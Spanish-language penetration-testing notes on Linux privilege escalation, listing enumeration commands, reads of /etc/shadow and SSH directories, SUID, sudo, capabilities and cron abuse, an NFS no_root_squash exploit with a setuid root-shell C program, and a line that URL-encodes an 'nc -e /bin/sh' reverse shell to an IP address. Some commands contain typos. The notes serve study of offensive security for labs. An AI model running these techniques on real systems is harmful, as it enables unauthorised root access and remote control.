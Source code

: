 [[Apuntes]][[Escalada Privilegios]]
## Enumeración básica

``` bash
*** ls -la a la raiz del sistema siempre ***
id # privilegios usuario actual (lxd o docker)
uname -a # información kernel
su - <user> # no perder las variables
lsb_release -a # enumerar info del S.O
env # para ver las variables del sistema
ss -tulpn # ver puertos/servicios internos que hay abiertos
netstat -a # muestra todos los puertos que estan en escucha y conectados
ps aux # procesos ejecutandose en el sistema de manera ordenada
cat /etc/login.defs | grep “ENCRYPT_METHOD” # ver que tipo de encriptación se utiliza en el sistema en los hashes de las passwords
hash-indentifier # para ver que tipo de encryptacion tiene el hash
hashid <hash>
ps -eo user,command # reporta todos los comandos que se están ejecutando en el sistema
watch -d 'ps -ef # Procesos a tiempo real como pspy64'
#shell
python3 -c 'import ptpy;pty.spawn("/bin/bash")'
python -c 'import ptpy;pty.spawn("/bin/bash")'
ps aux --sort="-%mem" |more # procesos ejecutanose
curl "http://192.168.1.2/login.php" --data-urlencode 'username=admin&password=pass123' # Enviar datos url encodeados 
php -r 'print urlencode("nc -e /bin/sh 192.168.218.147 5344");' ;echo # Encodear datos
```

### Abusando de grupos

- [lxd/lxc](https://j4ckie0x17.gitbook.io/notes-pentesting/escalada-de-privilegios/linux/abusando-grupo-lxd-lxc)

- [pcap](https://j4ckie0x17.gitbook.io/notes-pentesting/escalada-de-privilegios/linux/abusando-grupo-pcap)

## Comprobar rutas importantes


``` bash
# Rutas core
/etc/passwd | cut ":" -f 1
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
/home/<user>/
/home/<user>/.ssh
/home/<user>/bash_history
# Comprobar que haya subdominios
/etc/nginx/sites-available
/etc/apache2/sites-available
```

### Enumeración automatizada

- LinPeas: [https://github.com/carlospolop/PEASS-ng](https://github.com/carlospolop/PEASS-ng)

- Linux Smart Enumeration: [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)

- LinEnum: [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)


## Abuso permisos sudo

``` bash
sudo -l # comprobar que el usuario actual tiene capacidad de ejecutar un binario como root
```

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252FmvX9l4BBwhij56cwtYtY%252Fimagen.png%3Falt%3Dmedia%26token%3D911accba-2f48-4531-b6e7-87466a56c75e&width=768&dpr=4&quality=100&sign=6cb66ffe5970351094f92961a9c95f60738488c2c4880b85f74a21d5761def41)

Si nos encontramos con env_keep+=LD_PRELOAD en el sudo -l podríamos hacer que cualquier programa utilice librerías compartidas, para saber como explotarlo accede a este [link](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/)

## Abuso permisos SUID

``` bash
find / -perm -4000 2>/dev/null # enumerar privilegios SUID
find / -perm -4000 2>/dev/null | grep “etc” # enumerar por archivos que estenexi en la ruta /etc/
find / -perm -4000 -o- -perm -2000 -o- -perm -6000 # enumerar grupos
```

## Encontrar carpetas/archivos que podemos escribir


``` bash
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u # directorios
find / -writable 2>/dev/null | grep -v -i -E 'proc|run|sys|dev' # archivos
```

## Enumerar tareas en proceso (cronjob)

``` bash
cat /etc/crontab o crontab -l
cat /var/spool/cron # para las cronjobs del sistema
cat /etc/anacron
systemctl list-timers # ver tareas que se van a ejecutar en los proximos minutos
```

### Monitorizador comandos script bash

``` bash
#!/bin/bash
old_process=$(ps -eo user,command)
while true; do
        new_process=$(ps -eo user,command)
        diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "procmon|command|kworker"
        old_process=$new_process
done
```

## Abuso Capabilites

``` bash
getcap -r / 2>/dev/null # de forma recursiva ver las capabilities que hayan definidas en el sistema
setcap -r <ruta> # quitar capabilty
setcap cap_setuid+ep <ruta del archivo> # asignar SUID permisios a la ruta
```

## Bypass restricted bash


``` bash
ssh user@ip bash # y después realizamos el tratamiento de la TTY
ssh user@ip 'bash --norc --noprofile'
```

## NFS

NFS (Network File System) es un protocolo de red utilizado para compartir sistemas de archivos entre computadoras. En el contexto de la escalada de privilegios en Linux, NFS puede ser utilizado como una técnica para obtener acceso a archivos o directorios que no son accesibles por defecto para un usuario sin privilegios.

Y se encuentra en este archivo:

``` bash
/etc/exports
```

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252Fl1fXjFHQP55lXPnocFuR%252Fimagen.png%3Falt%3Dmedia%26token%3D7a51ba38-5067-444e-9a5d-06877c9c97b8&width=768&dpr=4&quality=100&sign=c15bd4d657ad9ccb963bc959bd16549948a4ccf50fa8233fc3373029468be1c4)

El elemento crítico para este vector de escalada de privilegios es la opción "no_root_squash" que puede ver arriba. De forma predeterminada, NFS cambiará el usuario raíz a nfsnobody y eliminará cualquier archivo para que no funcione con privilegios de raíz. Si la opción "no_root_squash" está presente en un recurso compartido grabable, podemos crear un ejecutable con el conjunto de bits SUID y ejecutarlo en el sistema de destino.

Primero tenemos que enumerar los recursos compartidos montables de la máquina victima:

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252FjDUVGqE8KvN7IZUsExvR%252Fimagen.png%3Falt%3Dmedia%26token%3Dbc38b2eb-e69a-4f50-a53c-fd4fef73bfa8&width=768&dpr=4&quality=100&sign=52678f29251f4916884580faea324db856ad289071b5d238bbd405f4bea68471)

Montaremos un recurso compartido "no_root_squash" en nuestra máquina local

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252FFdUXoLfjz6IQgPjmnGND%252Fimagen.png%3Falt%3Dmedia%26token%3D92297b52-d145-4bdd-8a07-522736f71f51&width=768&dpr=4&quality=100&sign=c0313f43f2eda927dc020ccce7bc357859209bdac901a7b140367cd65eb5dbc0)

Creamos un script con C con una /bin/bash y que nos de root cuando se ejecute en la victima


``` bash
int main()
{ setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```

Lo compilamos y le damos permisos SUID

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252F8V6t3iClp332K10qdGIf%252Fimagen.png%3Falt%3Dmedia%26token%3Dd250d589-cdfb-4ce2-8702-b46f783f78a1&width=768&dpr=4&quality=100&sign=df97bc0e3b5e6c03a7a23a25552b7f0b875d93c09e1a9e254912b76dcfbc9563)

No hace falta transferirlos por qué ya está en la máquina victima ya que hemos estado trabajando en ella mediante un recurso compartido.

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252FwryJBgnXkQGYibiqyO4r%252Fimagen.png%3Falt%3Dmedia%26token%3D938aab09-bf93-487b-a872-b2ce64fbcf63&width=768&dpr=4&quality=100&sign=532d8c89d1fdb50c26b2936655e026dcc08d27bc0a607739fe0da6336cf40fc8)

Lo ejecutamos y somos root

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252FzK261O2yZrUKcsKj9CSV%252Fimagen.png%3Falt%3Dmedia%26token%3D6cde92a9-5831-4cff-8545-c1056488994b&width=300&dpr=4&quality=100&sign=f9410a7fa0ef3e982394f81c1ecbde73bf1d5ec3368b43fb7abe42446593b6b3)

## Kernel exploits

```
uname -a
lsb_release -a
```

### Consejos

1. Se muy especifico a la hora de buscar la version del kernel en exploitdb,google o searchsploit.

2. Entiende muy bien el exploit antes de ejecutarlo, a veces se tienen que modificar.

3. Puede que el script se tenga que interactuar en el futuro así que cuidado.

4. Para traspasar el exploit a la máquina victima, como siempre la carpeta /tmp y en tu máquina abres un servidor `python3 -m http.server 9000`


Si creemos que puede que el sistema comprometido es vulnerable de kernel, como un script que no sea de ese mismo kernel lo ejecutemos en el sistema puede romperlo.

Para asegurarnos tenemos [LES (Linux Exploit Suggester)](Linux%20Exploit%20Suggester)) que nos ayudará a saber cual es el CVE correcto para ejecutar.

## Analizar archivos

``` bash
ltrace <archivo> # se utiliza para rastrear las llamadas a funciones bibliotecarias que hace un programa en tiempo de ejecución.
strings <archivo> #  busca en un archivo binario (como un archivo ejecutable o una biblioteca compartida)
```
